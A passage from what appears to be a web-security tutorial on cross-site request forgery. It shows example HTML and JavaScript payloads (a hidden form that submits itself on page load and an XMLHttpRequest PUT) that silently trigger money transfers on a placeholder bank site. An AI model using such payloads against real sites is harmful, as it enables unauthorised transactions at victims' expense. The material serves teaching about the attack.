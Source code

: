 If this image tag were included in the email, Alice wouldn't see anything. However, the browser _will still_ submit the request to `bank.com` without any visual indiation hat te transfer has taken place.

### POST Scenario

The only difference is how the attack is being executed by the victim.

```txt
POST http://bank.com/transfer.do HTTP/1.1

acct=BOB&amount=100
```

Such request cannot be delivered using standard `A` or `IMG` tags, but can be delivered using a FORM:

```html
<form action="http://bank.com/transfer.do" method="POST">

<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>

</form>
```

You don't even need the user to click on the submit button, you can execute it automatically using JavaScript:

```html
<body onload="document.forms[0].submit()">

`<form...`
```

### Other HTTP Methods

Modern API frequently use other methods, such as PUT or DELETE. Let's assume the vulnerable bank uses PUT that takes a JSON block as an argument.

```txt
PUT http://bank.com/transfer.do HTTP/1.1

`{ "acct":"BOB", "amount":100 }`
```

Such requests can be executed with JavaScript embedded into an exploit page:

```html
<script>
function put() {
    var x = new XMLHttpRequest();
    x.open("PUT","http://bank.com/transfer.do",true);
    x.setRequestHeader("Content-Type", "application/json");
    x.send(JSON.stringify({"acct":"BOB", "amount":100}));
}
</script>

<body onload="put()">
```
